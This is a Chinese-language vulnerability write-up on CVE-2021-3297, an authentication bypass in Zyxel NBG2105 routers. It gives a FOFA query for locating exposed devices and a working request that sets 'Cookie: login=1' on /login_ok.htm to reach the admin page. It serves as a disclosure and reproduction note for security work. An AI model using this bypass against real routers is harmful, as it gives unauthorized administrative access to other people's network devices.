# Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/zyxel-5.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](http://wikioss.peiqi.tech/vuln/zyxel-6.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](http://wikioss.peiqi.tech/vuln/zyxel-7.png)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass
